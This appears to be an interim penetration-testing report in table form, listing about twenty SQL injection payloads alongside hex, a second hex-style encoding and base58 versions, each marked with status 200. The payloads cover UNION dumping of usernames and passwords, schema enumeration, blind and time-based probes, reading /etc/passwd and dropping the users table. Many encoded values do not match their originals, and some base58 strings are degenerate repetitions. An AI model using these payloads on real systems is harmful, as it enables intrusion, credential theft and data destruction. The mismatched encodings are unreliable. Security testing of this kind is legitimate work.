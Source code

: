 # Промежуточный отчет

## Тестовые данные №1 (hex)

| Technique                       | Original                                                      | Payload                                                                                     | Status | Indicators |
|----------------------------------|--------------------------------------------------------------|---------------------------------------------------------------------------------------------|--------|------------|
| Tautology                        | `' OR 1=1--`                                                  | `27:20:4F:52:20:31:3D:31:2D:2D`                                                             | 200    |            |
| Tautology (quoted)               | `' OR '1'='1`                                                 | `27:20:4F:52:20:27:31:27:3D:27:31`                                                         | 200    |            |
| UNION — nulls                    | `' UNION SELECT null, null--`                                 | `27:20:55:4E:49:4F:4E:20:53:45:4C:45:43:54:20:6E:75:6C:6C:2C:20:6E:75:6C:6C:2D:2D`        | 200    |            |
| UNION — server version           | `' UNION SELECT 1, @@version--`                               | `27:20:55:4E:49:4F:4E:20:53:45:4C:45:43:54:20:31:2C:20:40:40:76:65:72:73:69:6F:6E:2D:2D`  | 200    |            |
| UNION — list tables              | `' UNION SELECT 1, table_name FROM information_schema.tables--`| `27:20:55:4e:49:4f:4e:20:53:45:4c:45:43:54:20:31:2c:20:74:61:62:6c:65:5f:6e:61:6d:65:20:46:52:4f:4d:20:69:6e:66:6f:72:6d:61:74:69:6f:6e:5f:73:63:68:65:6d:61:2e:74:61:62:6c:65:73:2d:2d`  | 200    |            |
| UNION — list columns (for `users`)| `' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'--` | `27:20:55:4e:49:4f:4e:20:53:45:4c:45:43:54:20:31:2c:20:63:6f:6c:75:6d:6e:5f:6e:61:6d:65:20:46:52:4f:4d:20:69:6e:66:6f:72:6d:61:74:69:6f:6e:5f:73:63:68:65:6d:61:2e:63:6f:6c:75:6d:6e:73:20:57:48:45:52:45:20:74:61:62:6c:65:5f:6e:61:6d:65:3d:27:75:73:65:72:73:27:2d:2d`    | 200    |            |
| UNION — username/password        | `' UNION SELECT username, password FROM users--`             | `27:20:55:4e:49:4f:4e:20:53:45:4c:45:43:54:20:75:73:65:72:6e:61:6d:65:2c:20:70:61:73:73:77:6f:72:64:20:46:52:4f:4d:20:75:73:65:72:73:2d:2d`      | 200    |            |
| Time-based (SLEEP)               | `' AND SLEEP(5)--`                                            | `27:3B:20:44:52:4F:50:20:53:45:4C:45:45:50:28:35:29:2D:2D`                                | 200    |            |
| Stacked / destructive            | `'; DROP TABLE users--`                                       | `27:3B:20:44:52:4F:50:20:54:41:42:4C:45:20:75:73:65:72:73:2D:2D`                          | 200    |            |
| Tautology + LIMIT                | `' OR 1=1 LIMIT 1--`                                          | `27:20:4F:52:20:31:3D:31:20:4C:49:4D:49:54:20:31:2D:2D`                                  | 200    |            |
| ORDER BY (index check)           | `' ORDER BY 1--`                                             | `27:20:4F:52:20:4F:52:44:45:52:20:42:59:20:31:2D:2D`                                     | 200    |            |
| ORDER BY (higher index)          | `' ORDER BY 3--`                                             | `27:20:4F:52:20:4F:52:44:45:52:20:42:59:20:33:2D:2D`                                     | 200    |            |
| Boolean-based (COUNT)            | `' AND (SELECT COUNT(*) FROM users) > 0--`                   | `27:20:41:4e:44:20:28:53:45:4c:45:43:54:20:43:4f:55:4e:54:28:2a:29:20:46:52:4f:4d:20:75:73:65:72:73:29:20:3e:20:30:2d:2d`   | 200    |            |
| Blind boolean (ASCII+SUBSTRING)  | `' AND ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)) > 65--` | `27:20:41:4e:44:20:41:53:43:49:49:28:53:55:42:53:54:52:49:4e:47:28:28:53:45:4c:45:43:54:20:70:61:73:73:77:6f:72:64:20:46:52:4f:4d:20:75:73:65:72:73:20:4c:49:4d:49:54:20:31:29:2c:31:2c:31:29:29:20:3e:20:36:35:2d:2d`   | 200    |            |
| File read (LOAD_FILE)            | `' UNION SELECT 1, LOAD_FILE('/etc/passwd')--`                 | `27:20:55:4e:49:4f:4e:20:53:45:4c:45:43:54:20:31:2c:20:4c:4f:41:44:5f:46:49:4c:45:28:27:2f:65:74:63:2f:70:61:73:73:77:64:27:29:2d:2d`    | 200    |            |
| UNION — user()                   | `' UNION SELECT 1, user()--`                                  | `27:20:55:4E:49:4F:4E:20:53:45:4C:45:43:54:20:31:2C:20:75:73:65:72:28:29:2D:2D`            | 200    |            |
| UNION — database()               | `' UNION SELECT 1, database()--`                              | `27:20:55:4E:49:4F:4E:20:53:45:4C:45:43:54:20:31:2C:20:64:61:74:61:62:61:73:65:28:29:2D:2D`| 200    |            |
| Time-based via IF + SLEEP       | `' AND 1=IF(1=1, SLEEP(3), 0)---`                              | `27:20:41:4e:44:20:31:3d:49:46:28:31:3d:31:2c:20:53:4c:45:45:50:28:33:29:2c:20:30:29:2d:2d:2d` | 200    |            |
| EXISTS check                     | `' OR EXISTS(SELECT * FROM users WHERE username='admin')--`   | `27:20:4f:52:20:45:58:49:53:54:53:28:53:45:4c:45:43:54:20:2a:20:46:52:4f:4d:20:75:73:65:72:73:20:57:48:45:52:45:20:75:73:65:72:6e:61:6d:65:3d:27:61:64:6d:69:6e:27:29:2d:2d`   | 200    |            |
| UNION + group_concat enumeration | `' UNION SELECT group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=database()--` | `27:20:55:4e:49:4f:4e:20:53:45:4c:45:43:54:20:67:72:6f:75:70:5f:63:6f:6e:63:61:74:28:74:61:62:6c:65:5f:6e:61:6d:65:29:2c:32:20:46:52:4f:4d:20:69:6e:66:6f:72:6d:61:74:69:6f:6e:5f:73:63:68:65:6d:61:2e:74:61:62:6c:65:73:20:57:48:45:52:45:20:74:61:62:6c:65:5f:73:63:68:65:6d:61:3d:64:61:74:61:62:61:73:65:28:29:2d:2d` | 200    |            |

## Тестовые данные №2 (hexSusses)

| Technique                       | Original                                                      | Payload                                                                                     | Status | Indicators |
|----------------------------------|--------------------------------------------------------------|---------------------------------------------------------------------------------------------|--------|------------|
| Tautology                        | `' OR 1=1--`                                                  | `4a:53:41:67:54:31:52:67:4d:54:30:78:4c:53:30:3d`                                                             | 200    |            |
| Tautology (quoted)               | `' OR '1'='1`                                                 | `4a:53:41:67:54:31:52:67:4a:7a:45:6e:50:53:63:78`                                                         | 200    |            |
| UNION — nulls                    | `' UNION SELECT null, null--`                                 | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:62:6e:56:73:62:43:77:67:62:6e:56:73:62:43:30:74`        | 200    |            |
| UNION — server version           | `' UNION SELECT 1, @@version--`                               | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:4d:53:77:67:64:47:56:69:62:6d:46:30:64:57:31:68:62:47:56:79:49:55:63:67:61:57:31:68:64:47:6c:76:62:6d:64:30:49:55:4a:79:62:33:4a:70:62:6d:63:67:64:47:56:7a:64:41:74:4c:51:3d:3d`  | 200    |            |
| UNION — list tables              | `' UNION SELECT 1, table_name FROM information_schema.tables--`| `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:4d:53:77:67:59:32:39:74:62:33:4a:70:5a:57:46:79:49:55:63:67:61:57:31:68:64:47:6c:76:62:6d:64:30:49:55:4e:68:62:6d:4e:76:5a:47:56:6b:49:55:61:67:64:48:6b:67:64:47:56:7a:64:41:74:4c:51:3d:3d`  | 200    |            |
| UNION — list columns (for `users`)| `' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'--` | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:64:58:6c:30:62:47:56:66:62:57:46:7a:64:44:6b:67:61:57:31:68:64:47:6c:76:62:6d:64:30:49:55:63:67:64:58:6c:30:62:47:56:66:64:47:46:79:5a:58:4d:74:4c:51:3d:3d`    | 200    |            |
| UNION — username/password        | `' UNION SELECT username, password FROM users--`             | `4a:53:41:67:51:55:35:45:49:46:4e:52:56:56:51:4b:44:55:70:4c:53:30:3d`      | 200    |            |
| Time-based (SLEEP)               | `' AND SLEEP(5)--`                                            | `4a:39:79:67:52:46:4a:50:55:43:42:56:51:4a:4d:52:45:42:31:63:32:65:72:73:2d:2d`                                | 200    |            |
| Stacked / destructive            | `'; DROP TABLE users--`                                       | `4a:53:41:67:54:31:52:67:4d:54:30:78:49:45:78:4a:54:49:44:51:52:67:74:4c:53:30:3d`                          | 200    |            |
| Tautology + LIMIT                | `' OR 1=1 LIMIT 1--`                                          | `4a:53:41:67:54:31:4a:45:52:56:49:67:51:6c:6b:5a:53:30:74`                                  | 200    |            |
| ORDER BY (index check)           | `' ORDER BY 1--`                                             | `4a:53:41:67:54:31:4a:45:52:56:49:67:51:6c:6b:5a:53:7a:74`                                     | 200    |            |
| ORDER BY (higher index)          | `' ORDER BY 3--`                                             | `4a:53:41:67:51:55:35:45:49:46:68:55:45:78:46:52:58:55:56:4e:54:51:6f:4b:69:6b:67:52:6c:4a:50:54:53:42:31:63:32:65:72:73:29:67:50:69:41:77:4c:53:30:3d`                                     | 200    |            |
| Boolean-based (COUNT)            | `' AND (SELECT COUNT(*) FROM users) > 0--`                   | `4a:53:41:67:51:55:35:45:49:46:68:55:45:78:4a:54:49:44:51:52:59:57:4a:6c:63:6d:46:30:5a:53:42:31:63:32:65:72:73:20:54:45:78:4a:54:49:44:51:52:67:74:4d:53:77:2c:4d:53:77:2c:4d:53:77:29:67:50:69:42:36:4e:53:30:74`   | 200    |            |
| Blind boolean (ASCII+SUBSTRING)  | `' AND ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)) > 65--` | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:4d:53:77:67:54:45:35:42:52:46:39:46:53:58:4e:4b:43:79:39:68:63:58:4e:30:62:32:35:66:59:57:78:6c:64:6d:56:73:29:74:4c:51:3d:3d`   | 200    |            |
| File read (LOAD_FILE)            | `' UNION SELECT 1, LOAD_FILE('/etc/passwd')--`                 | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:4d:53:77:67:64:58:6c:30:62:47:56:66:29:74:4c:51:3d:3d`    | 200    |            |
| UNION — user()                   | `' UNION SELECT 1, user()--`                                  | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:4d:53:77:67:64:47:56:68:62:47:78:6c:63:79:29:74:4c:51:3d:3d`            | 200    |            |
| UNION — database()               | `' UNION SELECT 1, database()--`                              | `4a:53:41:67:51:55:35:45:49:46:68:4d:54:51:57:55:59:6f:4d:54:45:79:4c:43:42:54:54:45:46:55:43:28:33:29:2c:20:30:29:74:4c:51:3d:3d`| 200    |            |
| Time-based via IF + SLEEP       | `' AND 1=IF(1=1, SLEEP(3), 0)---`                              | `4a:53:41:67:54:31:52:67:52:56:68:49:58:54:53:54:53:4b:46:68:55:45:78:4a:54:43:41:6f:4b:69:6b:67:52:6c:4a:50:54:53:42:31:63:32:65:72:73:20:57:48:45:52:45:67:64:58:6c:30:62:47:56:66:62:57:56:30:64:47:56:66:4a:61:64:6d:69:6e:4a:79:6d:74:4c:51:3d:3d` | 200    |            |
| EXISTS check                     | `' OR EXISTS(SELECT * FROM users WHERE username='admin')--`   | `4a:53:41:67:56:55:35:4a:54:30:34:67:55:30:56:4d:52:56:51:67:5a:32:56:70:62:6d:64:6f:5a:58:4a:79:62:33:4a:68:64:47:56:7a:4a:57:34:75:62:33:4a:6e:4a:55:31:6d:65:57:56:79:4a:55:31:6c:64:47:56:6b:63:79:29:2c:32:67:52:6c:4a:50:54:53:42:31:63:32:65:72:73:20:57:48:45:52:45:67:64:47:56:7a:64:41:74:4c:51:3d:3d`   | 200    |            |

## Тестовые данные №3 (base58)

| Technique                       | Original                                                      | Payload                                                                                     | Status | Indicators |
|----------------------------------|--------------------------------------------------------------|---------------------------------------------------------------------------------------------|--------|------------|
| Tautology                        | `' OR 1=1--`                                                  | `3QvDtrKcXN2hv18XuW49Q1yDaoXKa`                                                             | 200    |            |
| Tautology (quoted)               | `' OR '1'='1`                                                 | `3CVgbdSdSFuAbN`                                                         | 200    |            |
| UNION — nulls                    | `' UNION SELECT null, null--`                                 | `Ahjbmqr2pJFMx7z`        | 200    |            |
| UNION — server version           | `' UNION SELECT 1, @@version--`                               | `6HiBtD5AS5toNtsKxxiLhJDPrcFHzBeVtb4sn`  | 200    |            |
| UNION — list tables              | `' UNION SELECT 1, table_name FROM information_schema.tables--`| `2n2CJBvfGV4brzN1w1xaZUCoDoJNvfetPUCi2F4p`  | 200    |            |
| UNION — list columns (for `users`)| `' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'--` | `Xc1D88SgUUZb9dhitzTfXwE3pn7SiQrgMGJ5UPBVMdXzDL6SvQgWm6TE5y9btfeTXJZtfR2rP9wu3s97yme`    | 200    |            |
| UNION — username/password        | `' UNION SELECT username, password FROM users--`             | `KFsSqJUNR7CsgV1yMxTCoCSddBqiJUgKohX3pEkBPAJx9MLAutVpaAt6mcgYSoYHCwmtYQoqrCKMeQH95bngaYek74cLfEH5j6i3dKc3VP6tvHSi548VSQKN`      | 200    |            |
| Time-based (SLEEP)               | `' AND SLEEP(5)--`                                            | `5GqLAbh5NGrfCNw3duweKQGvKLwGSM1HrnnY8NxfVKvDgwaVX4pP99djHpRtXme`                                | 200    |            |
| Stacked / destructive            | `'; DROP TABLE users--`                                       | `5qDysJzk4dSoX7McfurcHz`                          | 200    |            |
| Tautology + LIMIT                | `' OR 1=1 LIMIT 1--`                                          | `3QvDtrKcXN2hv18XuW49Q1yDaoXKa`                                  | 200    |            |
| ORDER BY (index check)           | `' ORDER BY 1--`                                             | `2d8EJR93SamBZgcfVic4gR56k`                                     | 200    |            |
| ORDER BY (higher index)          | `' ORDER BY 3--`                                             | `FPHCQixusSEpDsNN7TS`                                     | 200    |            |
| Boolean-based (COUNT)            | `' AND (SELECT COUNT(*) FROM users) > 0--`                   | `FPHCQixusSEpDsNNnRJ`   | 200    |            |
| Blind boolean (ASCII+SUBSTRING)  | `' AND ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)) > 65--` | `2wkrq793PXK4515zuH1BAKGLbs5cLpJCDSYEwaJ1qkiHZxfWd17rfwJ`   | 200    |            |
| File read (LOAD_FILE)            | `' UNION SELECT 1, LOAD_FILE('/etc/passwd')--`                 | `8b9sT2mnZ86p5Bm8A7XrbR6WhLdttfJsNA79m7cosBW3rxedx7Em8EQfwDfKaMQMZ9sW2G687TQdazWBmuHf24VV3bo85gXMv`    | 200    |            |
| UNION — user()                   | `' UNION SELECT 1, user()--`                                  | `2CVN3YHMGCXmVXL77LRKWFz4N2X4qU2d6H3J`            | 200    |            |
| UNION — database()               | `' UNION SELECT 1, database()--`                              | `2szRLpJfKqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJ`| 200    |            |
| Time-based via IF + SLEEP       | `' AND 1=IF(1=1, SLEEP(3), 0)---`                              | `5gFp3DbFWjC6FyX28mRkcJGko2c7MEcNLZme8UPWxj6Xnk7U9f3WbsWYLN2n2wBJRpRsR57xihoVUG` | 200    |            |
| UNION + group_concat enumeration | `' UNION SELECT group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=database()--` | `2szRLpJfKqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJnVqR8vJ` | 200    |            |


